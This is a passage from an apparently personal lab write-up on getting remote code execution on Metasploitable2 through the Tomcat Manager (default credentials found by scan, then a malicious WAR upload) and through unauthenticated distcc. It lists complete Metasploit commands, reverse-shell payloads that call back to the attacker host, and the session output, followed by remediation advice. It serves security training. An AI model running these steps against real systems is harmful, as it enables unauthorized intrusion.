










# Metasploitable2 — Tomcat Manager RCE & distcc RCE

I set out to exploit Apache Tomcat Manager on Metasploitable2, hit a real-world obstacle along the way (a hung service), diagnosed and fixed it, found valid credentials through a credential scan, and got full remote code execution. I also exploited a second, unrelated service — distcc — which runs with zero authentication at all. Two different RCE paths, two different root causes, documented together. Run entirely in an isolated lab, VirtualBox host-only network, no external access.

## Lab Setup

| Role | OS | IP Address |
|---|---|---|
| Attacker | Kali Linux | 192.168.56.102 |
| Target | Metasploitable2 | 192.168.56.105 |

## Part 1 — Apache Tomcat Manager RCE

- **Service:** Apache Tomcat/5.5 (port 8180)
- **Type:** Authenticated file upload leading to code execution
- **Description:** Tomcat's Manager application lets an authenticated admin deploy web applications (WAR files). If an attacker obtains valid manager credentials — often left as weak or default values — they can upload a malicious WAR containing a reverse shell payload, then trigger it by visiting the deployed path.

### 1. Searched for the exploit module

```
search tomcat_mgr_upload
```

Found `exploit/multi/http/tomcat_mgr_upload`, excellent rank.



### 2. First attempt — failed

```
use exploit/multi/http/tomcat_mgr_upload
show options
```

I initially ran this with the module's default `RPORT 80` and no credentials set, since I hadn't yet confirmed the port or any valid login. It failed immediately: `Unable to access the Tomcat Manager`. Looking back at my Nmap scan, Tomcat was actually running on **port 8180**, not 80 — my first mistake.



### 3. Diagnosed a hung service

After correcting the port, I still couldn't get a response — `curl` requests to the manager page hung indefinitely with no reply. A port scan confirmed 8180 was open, so the issue wasn't the network, it was the service itself.

I logged into the Metasploitable VM directly and found the real service name:

```
ps aux | grep tomcat
```

This showed it running as `tomcat55`, not `tomcat5` as I'd assumed. I restarted it:

```
sudo /etc/init.d/tomcat5.5 restart
```

After the restart, the manager page responded normally with `401 Unauthorized` — exactly what you'd expect from a working service that just needs credentials.

### 4. Found valid credentials

With the service healthy again, I ran Metasploit's built-in credential scanner against the manager interface:

```
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 192.168.56.105
set RPORT 8180
set VERBOSE true
run
```

It worked through a long list of common Tomcat credential pairs and found a match: **`tomcat:tomcat`**.






### 5. Exploited with the correct port and credentials

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 192.168.56.105
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST 192.168.56.102
run
```

This time it worked cleanly — authenticated, uploaded a malicious WAR file, triggered execution, and caught a Meterpreter session.

I then verified access:

```
shell
whoami
id
hostname
uname -a
```

```
whoami   -> tomcat55
id       -> uid=110(tomcat55) gid=65534(nogroup) groups=65534(nogroup)
hostname -> metasploitable
uname -a -> Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

Code execution achieved as the `tomcat55` service account — not root, since Tomcat runs under its own restricted user. Still full remote code execution with real impact: reading/writing any file the Tomcat user can access, and a foothold for further privilege escalation.



## Part 2 — distcc Remote Code Execution

- **Service:** distccd (port 3632)
- **Type:** Missing authentication leading to arbitrary command execution
- **Description:** distcc is a tool for distributing compiler jobs across multiple machines. Its daemon accepts and runs commands from any host that can reach it — there's no authentication layer at all. Anyone on the network can send it a command and it will execute it.

### 1. Loaded the exploit and checked options

```
use exploit/unix/misc/distcc_exec
show options
```



### 2. First payload attempt failed

```
set RHOSTS 192.168.56.105
set LHOST 192.168.56.102
run
```

The default `cmd/unix/reverse_bash` payload failed — the target's shell didn't support the `/dev/tcp` technique bash reverse shells rely on.

### 3. Switched payload and succeeded

```
set payload cmd/unix/reverse_perl
run
```

Perl is reliably present on Metasploitable2, and this payload worked immediately — a command shell session opened with no authentication required at any point.



### 4. Verified access

```
whoami
id
hostname
uname -a
```

```
whoami   -> daemon
id       -> uid=1(daemon) gid=1(daemon) groups=1(daemon)
hostname -> metasploitable
uname -a -> Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

Code execution achieved as `daemon` — again not root, but full arbitrary command execution on a service that required zero credentials whatsoever.



## Impact

**Tomcat:** An attacker who guesses or brute-forces manager credentials gets full code execution as the Tomcat service user — access to deploy further malicious applications, read configuration files, and pivot toward privilege escalation.

**distcc:** Since the service has no authentication, anyone with network access to port 3632 gets immediate arbitrary command execution with zero effort — no credentials to guess, no vulnerability to exploit beyond the fact that the service will run whatever it's told.

## How I'd Fix It

**Tomcat:**
- Change default/weak manager credentials immediately
- Restrict the Manager application to trusted IPs only, or disable it in production
- Monitor for repeated failed logins against the manager endpoint (credential scanning indicator)
- Keep the Tomcat service patched and monitor its uptime — an unresponsive service is itself worth investigating

**distcc:**
- Never expose distccd to untrusted networks — bind it to localhost or a trusted internal interface only
- Use a firewall to restrict access to port 3632
- Where possible, run distcc with the `--allow` flag restricted to known hosts
- Decommission distcc entirely if it's not actively needed

## Disclaimer

I ran this exclusively against Metasploitable2, a VM intentionally built with known vulnerabilities for legal security training, inside an isolated lab network. Don't run this against anything you don't own or have explicit permission to test.
